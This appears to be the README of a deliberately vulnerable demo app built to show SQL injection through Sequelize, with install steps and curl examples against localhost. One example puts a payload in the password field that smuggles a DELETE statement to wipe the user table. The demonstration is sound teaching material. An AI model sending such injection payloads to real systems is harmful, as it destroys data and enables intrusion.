 # SQL Injection with Sequelize

This application is a demonstration prototype just to show how to perform SQLi attack.


## Install

- Install node modules

```
npm install
```

- Create database

```
sudo -u root mysql -u root < database.sql
```

- Set env vars (in .env file)

```
DB_PASSWORD=p4ssw0rd
```

- Run

```
npm start
```

## Usage

- Create user

```
curl --header "Content-Type: application/json" \
    --request POST \
    --data '{"name":"Frodon Saque","password":"azerty"}' \
    http://localhost:3000/users
```

- Use SQL Injection to drop all users

```
curl --header "Content-Type: application/json" \
    --request POST \
    --data '{"name":"Frodon Saque","password":"azerty'\''); DELETE FROM user; -- "}' \
    http://localhost:3000/users
```

## What still needs to be done

- [ ] Add get users controller